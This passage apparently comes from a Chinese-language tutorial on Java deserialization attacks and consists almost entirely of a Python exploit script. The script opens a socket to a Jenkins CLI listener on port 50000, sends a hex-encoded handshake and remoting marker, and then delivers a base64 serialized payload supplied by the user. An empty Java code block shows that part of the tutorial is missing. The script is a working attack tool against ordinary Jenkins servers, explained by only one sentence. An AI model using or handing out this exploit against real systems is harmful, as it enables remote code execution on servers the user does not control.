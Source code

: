 ```java
```

然后用python进行socket通信

```python
#!/usr/bin/env python
# coding: utf-8

import sys
import base64
import socket
import hashlib
import time

host = sys.argv[1]
sock_fd = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

cli_listener = (socket.gethostbyname(host), 50000)
print('[+] Connecting CLI listener %s:%s' % cli_listener)
sock_fd.connect(cli_listener)

print('[+] Sending handshake headers')
headers = '\x00\x14\x50\x72\x6f\x74\x6f\x63\x6f\x6c\x3a\x43\x4c\x49\x2d\x63\x6f\x6e\x6e\x65\x63\x74'
sock_fd.send(headers)
sock_fd.recv(1024)
sock_fd.recv(1024)

payload_obj_b64 = sys.argv[2]
payload = '\x3c\x3d\x3d\x3d\x5b\x4a\x45\x4e\x4b\x49\x4e\x53\x20\x52\x45\x4d\x4f\x54\x49\x4e\x47\x20\x43\x41\x50\x41\x43\x49\x54\x59\x5d\x3d\x3d\x3d\x3e'
payload += payload_obj_b64

print('[+] Sending payload')
sock_fd.send(payload)
print('[+] Send All')
```

手动传入base64之后的数据

![](Java反序列之从萌新到菜鸟\13.png)
